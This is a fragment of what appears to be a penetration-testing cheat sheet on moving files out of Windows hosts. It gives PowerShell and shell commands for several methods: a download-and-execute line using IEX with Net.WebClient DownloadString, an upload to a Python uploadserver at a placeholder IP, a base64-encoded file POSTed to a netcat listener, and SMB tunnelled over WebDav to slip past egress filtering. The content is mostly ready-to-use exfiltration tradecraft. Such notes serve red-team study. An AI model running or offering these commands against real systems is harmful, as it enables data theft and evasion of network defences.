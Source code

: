    ```bash
   echo [STRING] | base64 -d > hosts
   ```

4. Check if the procedure was correct by comparing with 2.:

   ```bash
   md5sum hosts
   ```

#### Powershell - python server

1. Open a server

   ```bash
   python3 -m uploadserver
   ```

2. Upload via Invoke-RestMethod

   ```cmd
   > IEX(New-Object Net.WebClient).DownloadString('[LINK]')
   > Invoke-FileUpload -Uri http://[IP]/upload -File [FILE PATH]
   ```

#### Powershell - netcat + base64

1. Open netcat listener

   ```bash
   listen 8000	
   ```

2. Send the file by using `Invoke-WebRequest` or `Invoke-RestMethod` in base 64

   ```powershell
   > $b64 = [System.convert]::ToBase64String((Get-Content -Path '[PATH]' -Encoding Byte))
   > Invoke-WebRequest -Uri http://[IP]/ -Method POST -Body $b64
   ```

3. Decode

   ```bash
   echo <base64> | base64 -d -w 0 > hosts
   ```

#### SMB - WebDav

Commonly enterprises don't allow the SMB protocol (TCP/445) out of  their internal network because this can open them up to potential  attacks. An alternative is to run SMB over HTTP with `WebDav`.

1. Open WebDav

   ```bash
   sudo wsgidav --host=0.0.0.0 --port=[PORT] --root=/tmp --auth=anonymous 
   ```

2. Connect to WebDav

   ```powershell
   > dir \\[IP]\DavWWWRoot
   ```
